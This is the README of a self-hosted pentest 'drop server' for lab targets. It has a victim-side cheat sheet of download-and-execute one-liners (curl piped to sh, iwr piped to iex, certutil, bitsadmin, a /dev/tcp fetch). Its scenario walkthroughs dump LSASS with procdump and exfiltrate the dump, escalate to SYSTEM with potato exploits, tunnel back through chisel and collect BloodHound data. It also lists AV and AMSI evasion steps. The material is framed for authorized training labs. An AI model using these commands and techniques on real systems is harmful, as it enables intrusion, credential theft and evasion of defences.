

<div align="center">

# NEOSERV

### HTB / THM / OffSec / HS Drop Server



*Self-hosted HTTP drop server that delivers ~90 pentest tools to authorized lab targets in one `curl`.*

</div>

---

A self-hosted HTTP file server pre-loaded with the standard pentest toolkit (~90 tools, ~190 MB) for fast delivery onto Linux and Windows targets during authorized HTB / TryHackMe / OffSec / HackSmarter labs and other sanctioned engagements.

Two scripts do all the work:

| Script   | Purpose                                                                     |
|----------|-----------------------------------------------------------------------------|
| `fetch.sh` | Downloads every tool from its official upstream into the right folder      |
| `neoserv.sh` *(alias: `neoserv`)* | Starts an HTTP server on `tun0:80` so victims can pull files |

---

## Table of Contents

1. [Why this exists](#why-this-exists)
2. [Prerequisites](#prerequisites)
3. [Installation](#installation)
4. [Daily workflow](#daily-workflow)
5. [Victim-side fetch cheat sheet](#victim-side-fetch-cheat-sheet)
6. [Tool catalog](#tool-catalog)
7. [Common scenarios](#common-scenarios)
8. [Troubleshooting](#troubleshooting)
9. [Updating tools](#updating-tools)
10. [Trust & supply-chain notes](#trust--supply-chain-notes)
11. [Detection & AV evasion reality check](#detection--av-evasion-reality-check)
12. [Authorization](#authorization)
13. [License & credits](#license--credits)

---

## Why this exists

When you pop a shell on a target box, you almost never have your tooling there. You need to **transfer files in fast**: `linpeas` on Linux, `winPEAS` and Sharp\* binaries on Windows, potatoes for SeImpersonate, kernel exploits for old boxes, tunneling tools to reach internal networks, etc.

The standard pattern: stand up a small HTTP server on your Kali attacker box, then fetch from the victim with `curl`, `wget`, `Invoke-WebRequest`, or `certutil`. This repo automates the boring part of keeping that server stocked with current versions of the tools you'll need 95 % of the time.

It is **not** a C2, **not** a phishing kit, and **not** anything that targets without explicit authorization.

---

## Prerequisites

You will need a Kali (or Debian-based) attacker machine with:

| Requirement       | Why                                                                   | Install                                       |
|-------------------|-----------------------------------------------------------------------|-----------------------------------------------|
| `bash`            | Run the scripts                                                       | preinstalled                                  |
| `curl`            | `fetch.sh` uses it for downloads                                      | `sudo apt install curl`                       |
| `unzip`, `tar`, `gunzip` | Extract release archives                                       | preinstalled                                  |
| `php` **or** `python3` | Serve the folder over HTTP (script auto-detects)                 | preinstalled on Kali                          |
| HTB / lab VPN connected (`tun0` up) | Server binds to your VPN-assigned IP only          | OpenVPN, WireGuard, etc.                      |
| `eza` *(optional)* | Pretty icon-tree listing of available tools when `neoserv.sh` starts   | `sudo apt install eza`                        |

Disk: ~200 MB after `fetch.sh` runs. Bandwidth: ~190 MB initial download from GitHub.

---

## Installation

### 1. Clone the repo

Drop it wherever you keep your tooling:

```bash
git clone https://github.com/Neosprings/neoserv.git
cd neoserv
chmod +x fetch.sh neoserv.sh
```

### 2. Pull all tools

```bash
./fetch.sh
```

This populates the folder structure and prints a summary of fetched / failed downloads. Re-runnable any time to refresh to the latest releases.

### 3. (Optional) install the `neoserv` shortcut

So you can launch the server from anywhere with one word:

```bash
ln -sf "$PWD/neoserv.sh" ~/.local/bin/neoserv
```

Make sure `~/.local/bin` is on your `$PATH`. Most Kali shells already include it. Verify with:

```bash
echo $PATH | tr ':' '\n' | grep -F "$HOME/.local/bin"
```

If nothing prints, add this line to `~/.zshrc` or `~/.bashrc`:

```bash
export PATH="$HOME/.local/bin:$PATH"
```

---

## Daily workflow

```bash
# 1. Connect to your lab VPN first
sudo openvpn ~/Downloads/lab_user.ovpn

# 2. Start the drop server (default port 80)
neoserv
# or:  ./neoserv.sh
# or with a custom port: neoserv 1337
```

You'll see something like:

```
   _  _ ___ ___  ___ ___ _____   __
  | \| | __/ _ \/ __| __| _ \ \ / /
  | .` | _| (_) \__ \ _||   /\ V /
  |_|\_|___\___/|___/___|_|_\ \_/
   HTB / THM / OffSec / HS Drop Server — by Chris Alupului (Neospring)

[*] serving /path/to/neoserv
[*] http://10.10.14.42/   (flat URLs work, e.g. http://10.10.14.42/linpeas.sh)

  Linux:    curl http://10.10.14.42/linpeas.sh | sh
  PS:       iwr http://10.10.14.42/winPEASx64.exe -o w.exe; .\w.exe
  certutil: certutil -urlcache -f http://10.10.14.42/nc64.exe nc.exe
```

The IP shown is your `tun0` address. Paste those one-liners directly into the victim shell.

`Ctrl-C` to stop. The server only binds to `tun0`, so it's not reachable from the internet or your LAN.

---

## Victim-side fetch cheat sheet

Replace `$IP` with your attacker `tun0` IP. `neoserv` defaults to **port 80**, so `$IP` alone is enough; no port suffix needed. If you started it on a custom port (e.g. `neoserv 1337`), append `:1337` to the URLs. The router serves any file by basename, so `/linpeas.sh` works just like `/linux/linpeas.sh`.

### Linux

```bash
# Run linpeas in memory, no disk write
curl http://$IP/linpeas.sh | sh

# Download + execute pspy (process snooper)
curl -o /tmp/pspy http://$IP/pspy64
chmod +x /tmp/pspy && /tmp/pspy

# wget alternative (busybox boxes)
wget -q http://$IP/lse.sh -O /tmp/lse.sh && bash /tmp/lse.sh

# Pure-bash /dev/tcp fallback when curl/wget are missing
exec 3<>/dev/tcp/$IP/80
echo -e "GET /linpeas.sh HTTP/1.0\r\n\r\n" >&3
cat <&3
```

### Windows — PowerShell (Win 7 SP1 +)

```powershell
# Download to disk and execute
iwr http://$IP/winPEASx64.exe -o w.exe; .\w.exe

# Reflective: PrivescCheck loaded directly into memory
iwr http://$IP/PrivescCheck.ps1 -UseBasicParsing | iex

# Older PS (no iwr)
(New-Object Net.WebClient).DownloadFile("http://$IP/winPEASx64.exe","$env:TEMP\w.exe")
& "$env:TEMP\w.exe"
```

### Windows — cmd.exe / certutil

```cmd
:: Available on every Windows since XP. Abuses the cert cache as a file fetcher
certutil -urlcache -f http://%IP%/nc64.exe nc.exe

:: bitsadmin (deprecated but still works on most builds)
bitsadmin /transfer myJob /download /priority normal http://%IP%/procdump64.exe %TEMP%\pd.exe
```

---

## Tool catalog

| Folder                | Use case                                                       | Highlights                                                                   |
|-----------------------|----------------------------------------------------------------|------------------------------------------------------------------------------|
| `linux/`              | Privilege escalation enum on Linux foothold                    | linpeas, lse, LinEnum, LES, LES2, deepce, pspy ×4, traitor, kerbrute         |
| `windows/`            | Privesc enum on Windows foothold                               | winPEAS ×7, PowerUp, PrivescCheck, Sherlock, Watson, JAWS, LaZagne, kerbrute |
| `ad/`                 | Active Directory recon, abuse, post-ex                         | Rubeus, Seatbelt, SharpUp, Certify, SafetyKatz, SharpHound, SharpKatz, SharpDPAPI, SharpChrome, SharpView, ADSearch, Inveigh, KrbRelayUp, PowerView, adPEAS, Invoke-Mimikatz, mimikatz, PetitPotam.py, noPac.py |
| `sysinternals/`       | Microsoft-signed dual-use binaries                             | PsExec, procdump (LSASS dump), accesschk, PsLoggedon (32 + 64)               |
| `potatoes/`           | SeImpersonate → SYSTEM exploitation                            | PrintSpoofer ×2, GodPotato ×3, JuicyPotatoNG, RoguePotato, SweetPotato       |
| `shells/`             | Reverse shells & netcat builds                                 | nc.exe ×2, php / aspx / jsp shells, powercat, Nishang Invoke-PowerShellTcp   |
| `tunneling/`          | Pivot through a foothold to reach internal subnets             | chisel (linux + win), ligolo-ng agent + proxy                                |
| `kernel-exploits/`    | Local privesc when a CVE matches the kernel / OS               | pwnkit, dirtypipe ×2, dirtycow, PrintNightmare, MS16-032, gameoverlay, HiveNightmare |
| `static-bins/`        | Drop-in tools when the victim is missing core utilities        | socat, nmap, ncat, python, busybox + wget.exe (Windows)                      |

Run `neoserv` (or `eza -R --icons=always` from inside the repo) for the full file-by-file listing.

---

## Common scenarios

### "I just got a Linux shell, what do I run?"

```bash
curl http://$IP/linpeas.sh | sh
```

If linpeas finds a kernel exploit candidate, grab the matching PoC from `kernel-exploits/`.

### "I just got a Windows shell, what do I run?"

```powershell
iwr http://$IP/winPEASx64.exe -o w.exe; .\w.exe
iwr http://$IP/PrivescCheck.ps1 -UseBasicParsing | iex
```

### "winPEAS says I have SeImpersonatePrivilege"

You can become SYSTEM. Pick the potato that matches the OS:

| OS                        | Tool                  |
|---------------------------|-----------------------|
| Server 2019 / Win 10 1809+| `PrintSpoofer64.exe`  |
| Server 2022 / Win 11      | `GodPotato-NET4.exe`  |
| Older Server / Win        | `JuicyPotatoNG.exe` or `RoguePotato.exe` |

```powershell
iwr http://$IP/PrintSpoofer64.exe -o p.exe
.\p.exe -i -c "cmd.exe"
```

### "I need to dump LSASS without mimikatz tripping AV"

```powershell
iwr http://$IP/procdump64.exe -o pd.exe
.\pd.exe -accepteula -ma lsass.exe lsass.dmp
```

Exfil `lsass.dmp` to your attacker box and run mimikatz / pypykatz against it.

### "I'm on a foothold but need to scan an internal subnet"

Use chisel for a quick SOCKS proxy back to your attacker:

```bash
# Attacker
./tunneling/chisel server -p 8000 --reverse

# Victim (linux)
curl -o /tmp/c http://$IP/chisel; chmod +x /tmp/c
/tmp/c client $IP:8000 R:1080:socks
```

Then `proxychains nmap -sT 10.0.0.0/24` from the attacker.

### "I have AD credentials, what next?"

```powershell
# Quick BloodHound collection
iwr http://$IP/SharpHound.exe -o sh.exe
.\sh.exe -c All --zipfilename loot.zip
```

Then transfer `loot.zip` back, ingest into BloodHound, find your path.

---

## Troubleshooting

| Symptom                                            | Likely cause                          | Fix                                                            |
|----------------------------------------------------|---------------------------------------|----------------------------------------------------------------|
| `[!] tun0 not up. Connect to your lab VPN first…`  | VPN isn't active                      | Run your `.ovpn` and confirm `ip a show tun0`                  |
| `Address already in use`                           | Port 80 occupied (often Apache)       | `sudo systemctl stop apache2`, or run `neoserv 1337`           |
| Victim says `bash: curl: command not found`        | Minimal busybox / Alpine box          | Try `wget`, then bash `/dev/tcp` fallback above                |
| PowerShell `iwr` returns garbage / hangs           | Old PS without `-UseBasicParsing`     | Add `-UseBasicParsing` to the cmdlet                           |
| `cannot be loaded because running scripts is disabled` | Execution policy                  | `powershell -ep bypass -c ".\\script.ps1"`                     |
| Defender / AV instantly deletes the binary         | Signature match (mimikatz, LaZagne…)  | Drop the file into `C:\Windows\Tasks\` or use AMSI bypass first |
| `neoserv.sh: php: command not found` and python also missing | Neither runtime installed     | `sudo apt install php-cli` or `sudo apt install python3`       |
| 404 on a fetch one-liner                           | Capitalization / wrong path           | Check the listing `neoserv` prints. Paths are case-sensitive   |

---

## Updating tools

`fetch.sh` is fully re-runnable and overwrites existing files in place.

```bash
cd /path/to/neoserv && ./fetch.sh
```

For binaries that resolve via the GitHub `latest` tag (PEASS-ng, ligolo-ng, chisel, kerbrute, etc.) you'll automatically get the newest release.

---

## Trust & supply-chain notes

This repo ships **only the fetcher**. The actual binaries come from public upstream sources at run time.

**Full audit of every upstream source is in [SOURCES.md](SOURCES.md).** Every URL `fetch.sh` calls is listed there with the maintainer, repo link, and trust-tier classification. Review it before running `fetch.sh` if you need due-diligence assurance for an engagement.

Trust profile in brief:

| Tier | Source                                                         | Verifiability                                              |
|------|----------------------------------------------------------------|------------------------------------------------------------|
| A    | Microsoft Sysinternals, gentilkiwi/mimikatz, busybox.net, jpillora/chisel, eternallybored.org | Official, signed                          |
| B    | peass-ng, itm4n, DominicBreuker/pspy, GossiTheDog, topotam, ropnop/kerbrute, samratashok, AlessandroZ | Reputable researchers, source available |
| C    | Flangvik/SharpCollection, r3motecontrol/Ghostpack-CompiledBinaries | CI / community build mirrors. Convenient, but you trust the build pipeline |
| D    | int0x33/nc.exe, andrew-d/static-binaries                       | Single-maintainer mirrors, no signing                      |

For high-stakes engagements compile Tier C / D binaries from source yourself.

---

## Detection & AV evasion reality check

Modern Defender / EDR will flag almost every binary in this kit on disk write:

- mimikatz, Rubeus, LaZagne, Inveigh, SharpHound, KrbRelayUp → **instant block**
- PowerView, PowerUp, Invoke-Mimikatz → AMSI-flagged on load
- PrintSpoofer / potatoes → flagged when executed

This is **fine for HTB / THM / OffSec / HS / lab VMs** which run no AV. For real engagements you'd typically:

1. Recompile from source with renamed strings
2. Use AMSI bypass before loading PS scripts
3. Pack with donut + obfuscation
4. Run in-memory only (e.g., `Invoke-Expression (iwr ...)`)
5. Use BYOVD / process injection for sensitive ops

None of that is part of this repo's scope.

---

## Authorization

> **You are responsible for what you do with this.**
>
> Use this kit **only** against:
> - Systems you personally own
> - HTB / TryHackMe / OffSec / HackSmarter / proving-ground lab environments
> - Engagements with **explicit written authorization**
>
> Unauthorized access to computer systems is a crime in virtually every jurisdiction. The author is not responsible for misuse.

---

## License & credits

Code in this repo (`fetch.sh`, `neoserv.sh`, this README) is released under the **MIT License**.

The tools fetched by `fetch.sh` retain their **own original licenses** held by their respective authors. This repo redistributes nothing. Every file is pulled directly from its upstream source at install time.
